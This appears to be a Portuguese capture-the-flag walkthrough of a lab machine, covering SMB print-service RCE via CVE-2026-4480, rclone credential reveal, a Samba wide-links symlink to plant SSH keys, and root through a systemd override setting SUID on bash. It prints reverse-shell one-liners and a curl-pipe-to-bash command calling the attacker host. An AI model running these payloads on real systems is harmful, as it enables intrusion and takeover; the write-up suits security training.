








CVE-2026-4480 no serviço de impressão SMB permite RCE como nobody. Credenciais ofuscadas do rclone reveladas em texto claro permitem acesso como scott. Symlink attack via Samba wide links para escrita em authorized_keys do marcus. Escalada via systemd override no smbd com SUID bash via Polkit.
Escopo: 10.129.244.177
Iniciaremos este projeto com a fase de reconhecimento, realizando a coleta de informações sobre o ambiente alvo.
Realizaremos a enumeração de portas para identificar serviços ativos e expostos no ambiente alvo.
bash$ enumport 10.129.244.177
Enumerando portas....
Portas abertas: 22,139,445
Verificando Serviços
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-05 10:11 -0300
Nmap scan report for 10.129.244.177
Host is up (0.16s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
139/tcp open netbios-ssn Samba smbd 4
445/tcp open netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
|_clock-skew: 1s
| smb2-time:
| date: 2026-09-05T13:11:42
|_ start_date: N/A
|_nbstat: NetBIOS name: ABDUCTED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.77 seconds
Obs: Para enumeração de portas e serviços utilizamos o script personalizado juntamente com Nmap: https://github.com/fstringuetta/enumport
Realizamos um teste de Null Session via SMB para verificar se é possível listar compartilhamentos sem autenticação.
bash$ netexec smb 10.129.244.177 -u '' -p '' --shares

A partir dessa informação, realizamos uma pesquisa por vulnerabilidades conhecidas relacionadas ao serviço SMB e ao componente de impressão HP-Reception identificado. Durante a investigação, encontramos uma possível vulnerabilidade catalogada como CVE-2026-4480, que poderia permitir injeção e execução de comandos.

Link referência: https://www.sentinelone.com/vulnerability-database/cve-2026-4480/
Com a possível vulnerabilidade associada ao serviço já identificada, realizamos uma busca por exploits públicos relacionados à CVE-2026-4480. Após localizar uma implementação compatível com o cenário observado, efetuamos o download do exploit para o host local, a fim de realizar a prova de conceito (PoC).
bash$ python3 exploit.py 10.129.244.177 10.10.15.177 4444 -c 'ping -c2 10.10.15.177'

A prova de conceito foi executada com sucesso, confirmando a execução remota de comandos por meio do envio de pacotes ICMP do servidor alvo para o nosso host local.
Com a vulnerabilidade validada, o próximo passo consistiu em estabelecer uma conexão reversa (reverse shell) com o alvo. Para isso, utilizamos o reverse-shell.sh para gerar o payload que seria utilizado na obtenção do acesso inicial ao sistema.
bash# Reverse Shell as a Service
# https://github.com/lukechilds/reverse-shell
#
# 1. On your machine:
# nc -l 1337
#
# 2. On the target machine:
# curl https://reverse-shell.sh/yourip:1337 | sh
#
# 3. Don't be a dick
if command -v python > /dev/null 2>&1; then
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.15.177",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
exit;
fi
if command -v perl > /dev/null 2>&1; then
perl -e 'use Socket;$i="10.10.15.177";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
exit;
fi
if command -v nc > /dev/null 2>&1; then
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.177 9001 >/tmp/f
exit;
fi
if command -v sh > /dev/null 2>&1; then
/bin/sh -i >& /dev/tcp/10.10.15.177/9001 0>&1
exit;
fi
Assim que criamos nossa payload realizamos a execução do exploit.
bash$ python3 exploit.py 10.129.244.177 10.10.15.177 4444 -c 'curl 10.10.15.177/shell|bash'

Com acesso ao sistema, identificamos os usuários scott e marcus presentes no ambiente, porém sem permissão de acesso aos seus respectivos diretórios.
bashnobody@abducted:/home$ cd marcus/
bash: cd: marcus/: Permission denied
nobody@abducted:/home$ cd scott/
bash: cd: scott/: Permission denied
Durante a enumeração do sistema, identificamos a presença do utilitário rclone e localizamos seu arquivo de configuração em /opt/offsite-backup.
bashnobody@abducted:/opt/offsite-backup$ cat rclone.conf
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
A senha armazenada no arquivo de configuração estava no formato ofuscado do rclone. Utilizamos o comando rclone reveal para obter a senha em texto claro.
bash$ rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
iXzvcib3SrpZ
Agora que temos a senha em texto claro podemos validar se ela está também associada a um dos usuários existentes no sistema operacional.
bashnobody@abducted:/opt/offsite-backup$ su - scott
Password:
scott@abducted:~$ id
uid=1000(scott) gid=1001(scott) groups=1001(scott)

Para dar continuidade ao processo de pós-exploração, tornou-se necessário identificar um caminho para elevação de privilégios até o usuário root.
Durante a enumeração identificamos o compartilhamento transfer com a opção wide links habilitada no Samba.
bash[transfer]
comment = Staff file transfer
path = /srv/transfer
valid users = scott
force user = marcus
read only = no
wide links = yes
browseable = yes
A opção wide links = yes permite que o Samba siga links simbólicos para fora do diretório compartilhado. Como o compartilhamento é executado com force user = marcus, é possível criar um symlink apontando para o diretório home de marcus e, por meio do SMB, escrever arquivos nele — incluindo authorized_keys.
bashscott@abducted:~$ ln -s /home/marcus /srv/transfer/mc
scott@abducted:~$ ssh-keygen -q -t ed25519 -N '' -f /tmp/rsa
scott@abducted:~$ smbclient //127.0.0.1/transfer -U 'scott%iXzvcib3SrpZ'
Try "help" to get a list of possible commands.
smb: \> mkdir mc/.ssh
smb: \> put /tmp/rsa.pub mc/.ssh/authorized_keys
putting file /tmp/rsa.pub as \mc\.ssh\authorized_keys (18.7 kb/s) (average 18.8 kb/s)
Executados os passos acima podemos nos autenticar via SSH com usuário marcus utilizando a nossa chave privada.
bashscott@abducted:~$ ssh -i /tmp/rsa marcus@127.0.0.1

Com acesso como marcus, verificamos que ele pertence ao grupo operators. Realizamos a enumeração de diretórios graváveis associados a esse grupo.
bashmarcus@abducted:~$ find / -writable -group operators -type d 2>/dev/null
/etc/systemd/system/smbd.service.d
O diretório /etc/systemd/system/smbd.service.d é gravável pelo grupo operators. Verificamos também que marcus possui permissão via Polkit para realizar o reload de serviços systemd.
bashmarcus@abducted:~$ pkaction | grep reload
org.freedesktop.network1.reload
org.freedesktop.systemd1.reload-daemon
Com base nas permissões identificadas anteriormente, verificamos que seria possível combinar a permissão de escrita sobre os arquivos relacionados ao serviço smbd com a capacidade de realizar seu reload via Polkit, criando um possível vetor para elevação de privilégios.
Criamos o arquivo privesc.conf em /etc/systemd/system/smbd.service.d/ com o seguinte conteúdo:
ini[Service]
ExecStartPre=/bin/bash -c "chmod +s /bin/bash"

Após a criação do override malicioso e a configuração das diretivas necessárias, o próximo passo consistiu em aplicar as alterações realizadas. Para isso, efetuamos o reload das configurações do systemd e, posteriormente, o reinício do serviço smbd, fazendo com que a configuração adicionada anteriormente fosse executada com privilégios de root.
Os comandos utilizados para essa etapa são apresentados abaixo:
bashmarcus@abducted:~$ systemctl daemon-reload
marcus@abducted:~$ systemctl restart smbd
Verificamos que o SUID foi aplicado com sucesso ao /bin/bash.
bashmarcus@abducted:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31 2024 /bin/bash
Como o arquivo pertence ao usuário root, essa condição permitiu executar o binário preservando os privilégios de seu proprietário, concluindo o processo de elevação de privilégios para root e obtendo nossa segunda evidência de acesso.
bashmarcus@abducted:~$ /bin/bash -p
bash-5.2# id
uid=1001(marcus) gid=1002(marcus) euid=0(root) egid=0(root) groups=0(root),1000(operators),1002(marcus)

Obtida no diretório do usuário scott após movimentação lateral via rclone credentials
Obtida após escalada via systemd override + Polkit reload do smbd com SUID em /bin/bash